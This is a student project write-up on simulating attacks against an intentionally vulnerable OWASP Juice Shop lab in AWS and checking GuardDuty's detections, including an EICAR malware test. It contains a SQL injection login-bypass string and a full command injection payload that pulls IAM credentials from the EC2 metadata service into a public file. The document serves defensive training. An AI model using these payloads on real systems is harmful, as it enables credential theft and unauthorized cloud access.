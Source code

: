 <img src="https://cdn.prod.website-files.com/677c400686e724409a5a7409/6790ad949cf622dc8dcd9fe4_nextwork-logo-leather.svg" alt="NextWork" width="300" />

# Threat Detection with GuardDuty

**Project Link:** [View Project](http://learn.nextwork.org/projects/aws-security-guardduty)

**Author:** Abegail Manalac  
**Email:** abby.manalac@gmail.com

---

![Image](http://learn.nextwork.org/excited_gray_zealous_miracle_fruit/uploads/aws-security-guardduty_v1w2x3y4)

---

## Introducing Today's Project!

### Tools and concepts

The services I used were Amazon GuardDuty, S3, and Malware Protection. Key concepts I learnt include detecting unauthorized access, anomaly detection, findings analysis, and testing malware protection using the EICAR test file.

### Project reflection

This project took me approximately 2 hours. The most challenging part was acting as the hacker (simulating realistic attacker behavior while staying safe/controlled). It was most rewarding to see GuardDuty flag the exfiltration and the EICAR upload, confirming detections worked.

I did this to practice hands-on threat detection and incident analysis in AWS. Yes- it met my goals: I simulated attacks safely, validated GuardDuty findings, and tested malware protection, improving my detection and response skills.

---

## Project Setup

To set up for this project, I deployed a CloudFormation template that launches an intentionally vulnerable OWASP Juice Shop web app in an isolated AWS environment. The three main components are the web app infrastructure (EC2, VPC, CloudFront), an S3 bucket with sample sensitive data, and GuardDuty with logging for threat detection.

The web app deployed is called OWASP Juice Shop. To practice my GuardDuty skills, I will simulate attacks against it, observe how GuardDuty detects suspicious activity, and analyze the findings to strengthen detection and response.

GuardDuty is an AWS threat detection service that uses machine learning and threat intelligence to identify suspicious activity in your environment. In this project, it will monitor the vulnerable web app, detect attacks, and generate findings for investigation.

![Image](http://learn.nextwork.org/excited_gray_zealous_miracle_fruit/uploads/aws-security-guardduty_n1o2p3q4)

---

## SQL Injection

The first attack I performed on the web app is SQL injection, which means injecting malicious SQL into input fields so the app runs unintended database commands. SQL injection is a security risk because it can bypass authentication, expose or alter sensitive data, and compromise the database.

My SQL injection attack involved entering input like " ' or 1=1;-- " to manipulate the web app’s SQL query. This means the query always evaluates as true, letting me bypass the authentication check in a safe, controlled lab environment to demonstrate the vulnerability.


![Image](http://learn.nextwork.org/excited_gray_zealous_miracle_fruit/uploads/aws-security-guardduty_h1i2j3k4)

---

## Command Injection

Next, I used command injection, which is " #{global.process.mainModule.require('child_process').exec('CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/;TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") && echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json')}
" . The Juice Shop web app is vulnerable to this because it doesn’t sanitize input, allowing me to run JavaScript in the username field that accesses the EC2 instance metadata service and exposes IAM credentials in a public file.


To run command injection, I entered a malicious JavaScript script into the username field of the admin profile. The script will execute on the server, access the EC2 instance metadata service to retrieve IAM credentials, and save them in a public JSON file. The username shows " [object Object] " because the server created a new JavaScript object representing the credentials.json file.

![Image](http://learn.nextwork.org/excited_gray_zealous_miracle_fruit/uploads/aws-security-guardduty_t3u4v5w6)

---

## Attack Verification

To verify the attack's success, I navigated to " https://d2hsk0vd3pfipa.cloudfront.net/assets/public/credentials.json" on the deployed app. The credentials page showed me a JSON containing AccessKeyId, SecretAccessKey, Token, Expiration and related fields- confirming the IAM credentials were exfiltrated and publicly accessible.


![Image](http://learn.nextwork.org/excited_gray_zealous_miracle_fruit/uploads/aws-security-guardduty_x7y8z9a0)

---

## Using CloudShell for Advanced Attacks

The attack continues in CloudShell, because CloudShell provides a terminal where I can load the stolen IAM keys into the AWS CLI to access the target S3 bucket, producing API calls and CloudTrail activity that GuardDuty will log for detection and investigation.

In CloudShell, I used wget to download the public credentials.json from the JuiceShop URL into the shell so I had a local copy. Next, I ran a command using cat and jq to show and format the JSON, making it easier to read and revealing the AccessKeyId, SecretAccessKey, Token, and Expiration to use with the AWS CLI.

I then set up a profile, called stolen, to load the exfiltrated IAM keys into the AWS CLI so I could run S3 commands as the “hacker.” I had to create a new profile because it isolates the stolen credentials from my default session and accurately simulates attacker activity for GuardDuty and CloudTrail to detect.

![Image](http://learn.nextwork.org/excited_gray_zealous_miracle_fruit/uploads/aws-security-guardduty_j9k0l1m2)

---

## GuardDuty's Findings

After performing the attack, GuardDuty reported a finding within about 15 minutes. A finding is a notification of suspicious activity in your AWS environment, explaining what happened, who did it, and how, helping you investigate and respond.

GuardDuty's finding was called "UnauthorizedAccess\:IAMUser/InstanceCredentialExfiltration.InsideAWS", which means EC2 instance credentials were stolen and misused by another AWS account. Anomaly detection was used because GuardDuty spotted unusual activity compared to normal credential use.

GuardDuty's detailed finding reported that the attacker used an IAM role to access the Juice Shop’s S3 bucket, retrieved the secret text file, and did so from a location in my AWS Region via CloudShell. This insight helps trace the attack, assess impact, and plan prevention.

![Image](http://learn.nextwork.org/excited_gray_zealous_miracle_fruit/uploads/aws-security-guardduty_v1w2x3y4)

---

## Extra: Malware Protection

For my project extension, I enabled Malware Protection for S3 in GuardDuty, which scans objects in my bucket for malicious files. Malware is harmful software that can steal data, damage systems, or disrupt operations, and enabling this helps protect my AWS resources.

To test Malware Protection, I uploaded an EICAR test file into my S3 bucket. The uploaded file won't actually cause damage because it’s a harmless file designed only to trigger antivirus or security tools, letting me safely confirm that GuardDuty can detect malware.

Once I uploaded the file, GuardDuty instantly triggered a malware detection finding for the EICAR test file. This verified that Malware Protection was active and capable of identifying threats in my S3 bucket, proving the feature works as intended.

![Image](http://learn.nextwork.org/excited_gray_zealous_miracle_fruit/uploads/aws-security-guardduty_sm42x3y4)

---

